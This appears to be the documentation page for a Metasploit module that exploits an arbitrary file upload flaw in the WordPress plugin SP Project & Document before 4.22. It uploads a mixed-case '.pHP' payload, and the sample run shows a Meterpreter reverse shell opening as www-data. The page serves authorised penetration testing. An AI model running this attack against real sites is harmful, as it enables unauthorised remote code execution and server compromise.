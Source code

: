 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin SP Project & Document < 4.22.
The security check only searches for lowercase file extensions such as `.php`, making it possible to upload `.pHP` files for instance.
Finally, the uploaded payload can be triggered by a call to `/wp-content/uploads/sp-client-document-manager/<user_id>/my_payload.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of SP Project & Document plugin from [here]
(https://downloads.wordpress.org/plugin/sp-client-document-manager.4.21.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps


1. Start `msfconsole`
2. `use exploit/multi/http/wordpress_plugin_sp_project_document_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and SP Project & Document 4.21.
See the following output :

```
msf6 > use wordpress_plugin_sp_project_document_manager
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set rhost 192.168.1.35
rhost => 192.168.1.35
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set username admin
username => admin
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set password your_best_password
password => your_best_password
msf6 exploit(wordpress_plugin_sp_project_document_manager) > run

[*] Started reverse TCP handler on 192.168.1.28:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 4.21 of plugin SP Project & Document Manager found !
[+] The target is vulnerable. This version of SP Project & Document Manager is vulnerable !
[*] Uploading file 'ejtfh.pHP' containing the payload...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 4 opened (192.168.1.28:4444 -> 192.168.1.35:59938) at 2021-07-09 11:41:25 +0200
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 5 opened (192.168.1.28:4444 -> 192.168.1.35:59940) at 2021-07-09 11:41:45 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo 
Computer    : 217a92584fbf
OS          : Linux 217a92584fbf 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
meterpreter > 
```
